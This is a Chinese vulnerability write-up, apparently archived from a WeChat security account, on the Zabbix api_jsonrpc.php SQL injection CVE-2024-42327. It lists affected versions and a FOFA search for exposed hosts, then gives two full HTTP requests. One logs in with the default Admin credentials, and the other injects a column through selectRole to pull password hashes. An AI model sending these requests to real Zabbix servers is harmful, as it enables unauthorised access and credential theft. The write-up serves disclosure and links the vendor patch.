




# Zabbix api_jsonrpc.php接口存在SQL注入漏洞CVE-2024-42327 附POC

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：已认证可调用相关API的用户；示例用默认Admin密码不代表产品无认证
- 证据范围：login取token再selectRole拼列请求连贯，但管理员实验不能证明最低所需角色

### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 正文未在摘要明示鉴权前提/最低权限，需官方核对
- 列6.0.0–.31/6.4.0–.16/7.0.0，缺直接修复版说明
- 图片响应未视检；工具内容仅付费引导非可用附件

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

2024-12-4更新  南风漏洞复现文库   2024-12-04 15:08  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. Zabbix 简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
Zabbix是Zabbix公司的一套开源的监控系统。  
## 2.漏洞描述  
  
Zabbix是Zabbix公司的一套开源的监控系统。该系统支持网络监控、服务器监控、云监控和应用监控等。Zabbix 6.0.0至6.0.31版本、6.4.0至6.4.16版本和7.0.0版本存在SQL注入漏洞，该漏洞源于CUser类的addRelatedObjects函数中存在SQL注入漏洞，允许攻击者操纵数据库查询。  
  
CVE编号:CVE-2024-42327  
  
CNNVD编号:CNNVD-202411-3698  
  
CNVD编号:  
## 3.影响版本  
  
Zabbix 6.0.0至6.0.31版本、6.4.0至6.4.16版本和7.0.0版本  
  
  
  
Zabbix api_jsonrpc.php接口存在SQL注入漏洞  
## 4.fofa查询语句  
  
app="ZABBIX-监控系统"  
## 5.漏洞复现  
  
漏洞链接：http://xx.xx.xx.xx/api_jsonrpc.php  
  
漏洞数据包，使用默认账号密码获取token  
```http
POST /api_jsonrpc.php HTTP/1.1
Content-Type: application/json-rpc
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Host: xx.xx.xx.xx
Content-Length: 106
Expect: 100-continue
Connection: close

{"jsonrpc": "2.0", "method": "user.login", "params": {"username": "Admin", "password": "zabbix"}, "id": 1}
```  
  
  
  
使用上面获取到的token，发送数据  
```http
POST /api_jsonrpc.php HTTP/1.1
Content-Type: application/json-rpc
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Host: xx.xx.xx.xx
Content-Length: 167
Expect: 100-continue
Connection: close

{"jsonrpc": "2.0", "method": "user.get", "params": {"selectRole": ["roleid, u.passwd", "roleid"], "userids": "1"}, "auth": "8575fed5d90754c4d3dd0049d084bdd0", "id": 1}
```  
  
  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。4: 免费指纹识别，持续更新指纹库。  
  
  
  
  
  
  
  
  
  
  
## 7.整改意见  
  
官方补丁 https://support.zabbix.com/browse/ZBX-25623  
## 8.往期回顾  
  
  
[九思OA软件jsoa/dl.jsp存在任意文件读取漏洞 附POC](https://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487916&idx=1&sn=636bdfae861e5c01986212c20de3bdd8&scene=21#wechat_redirect)  
  
  
[jeecg-boot getTotalData接口存在SQL注入漏洞CVE-2024-48307 附POC](https://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487903&idx=1&sn=b35a9a002067a9751d5d1d6db95cbabf&scene=21#wechat_redirect)  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
